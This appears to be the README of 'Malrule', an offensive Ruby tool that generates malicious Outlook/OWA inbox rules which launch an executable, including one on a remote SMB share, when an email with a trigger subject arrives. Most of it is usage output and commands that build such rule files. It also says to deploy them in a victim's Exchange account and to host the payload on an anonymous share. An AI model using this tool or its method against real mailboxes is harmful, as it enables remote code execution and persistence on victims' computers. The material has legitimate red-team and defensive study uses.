 # Malrule

Quick and painless utility to generate malicious OWA rules.

# Useful Resources

The following resources discuss how this attack works in detail. Authors for each resource have written their own utilities as well. Sensepost's resource, _ruler_, takes the attack further by using MAPI requests to automagically deploy the rule using user provided credentials.

- [SilentBreak Security: Malicious Outlook Rules](https://silentbreaksecurity.com/malicious-outlook-rules/)
- [Sensepost: MAPI over HTTP and Mailrule Pwnage](https://sensepost.com/blog/2016/mapi-over-http-and-mailrule-pwnage/)

# Malrule Usage

## Getting Help

    user@dathost:malrule~> ruby malrule.rb help generate
    Usage:
      malrule.rb generate --executable-path=EXECUTABLE_PATH --file-name=FILE_NAME --rule-name=RULE_NAME --subject-trigger=SUBJECT_TRIGGER

    Options:
      --rule-name=RULE_NAME              # Name for the rule, as it will will appear in Outlook and OWA.
      --subject-trigger=SUBJECT_TRIGGER  # String appearing in the subject line that triggers execution of the rule1.
      --executable-path=EXECUTABLE_PATH  # Path to the executable file.
      --file-name=FILE_NAME              # Name of the file that the rule will be written to.

    Generate a malicious outlook rule. The rule should be deployed in the victim's Exchange account via OWA or Outlook and is then synchronized via Outlook so long as the victim's account is logged in.

## Generating a Rule

    user@dathost:malrule~> ruby malrule.rb generate --executable-path='\\127.0.0.1\share\file.exe' --subject-trigger="innocuous subject" --rule-name="OOO" --file-name="myrule"

    [+]  Rule file written to myrule.rwz...exiting

## Generate a Test Rule

Deploy the rule in an exchange account under your control and send yourself an email with the subject "innocuous subject" to pop cmd.exe. This is just to illustrate that the rule is working locally. Enhance the test by deploying an executable on an SMB share and updating the executable path to point to that file. __Note:__ make sure permissions allow for anonymous access to the share and file.

    user@dathost:malrule~> ruby malrule.rb generate --executable-path='cmd.exe' --subject-trigger="innocuous subject" --rule-name="OOO" --file-name="myrule"

    [+]  Rule file written to myrule.rwz...exiting